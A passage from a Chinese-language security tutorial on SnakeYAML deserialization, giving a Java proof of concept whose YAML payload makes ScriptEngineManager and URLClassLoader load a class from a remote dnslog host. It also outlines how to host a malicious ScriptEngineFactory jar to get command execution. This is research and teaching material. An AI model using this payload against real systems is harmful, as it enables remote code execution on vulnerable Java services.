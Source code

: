 ```java
package org.h3rmesk1t.SnakeYaml;

import org.yaml.snakeyaml.Yaml;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/1 6:35 下午
 */
public class ScriptEngineManagerExploit {

    public static void main(String[] args) {

        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://hfme12.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

可以看到下图中成功获取`dnslog`请求, 但是只是探测是否进行了反序列化, 如果需要利用的话还需要构造命令执行的代码.

<div align=center><img src="./images/8.png"></div>

对于上文的命令执行的脚本, 可以参考[yaml-payload.jar](https://github.com/artsploit/yaml-payload/), 其实现了`ScriptEngineFactory`接口, 然后在静态代码块处填写需要执行的命令, 将项目打包后挂载到`web`端, 使用`payload`进行反序列化后请求到该位置, 实现`java.net.URLClassLoader`调用远程的类进行执行命令即可.

<div align=center><img src="./images/9.png"></div>